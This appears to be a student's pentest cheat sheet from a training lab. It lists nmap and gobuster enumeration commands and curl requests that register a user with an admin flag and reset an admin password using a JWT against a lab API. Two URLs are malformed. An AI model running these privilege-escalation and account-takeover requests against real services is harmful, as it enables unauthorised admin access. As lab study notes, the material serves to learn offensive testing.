 # NMAP
fingerprinting
```
nmap -p80 -sV 192.168.241.51
nmap -p80 -sV --script=http-enum 192.168.241.51
```
# GOBUSTER
Directory brute forcing
```
gobuster dir -u 192.168.241.51 -w /usr/share/wordlists/dirb/common.txt -t 5
```
# APIs 
```
gobuster dir -u http://192.168.241.51:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
pattern recognition file
```
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
{GOBUSTER}/v4
{GOBUSTER}/v5
{GOBUSTER}/v1/admin
```
JSON manipulation
```
curl -i http://192.168.241.51:5002/users/v1/login
#json curl with password
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
# new user as admin
curl -d '{"password":"lab","username":"offsec-admin","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.241:5002/users/v1/login
```
Steal Admin token
```
curl -X 'PUT' \
  'http://192.168.50.16:5002/users/v1/admin/password' \
  -H 'Content-Type: application/json' \
  -H 'Authorization: OAuth eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4' \
  -d '{"password": "pwned"}'
```
# XSS 



# Checklist
get application/version 
robots.txt
sitemap.xml
dirb 

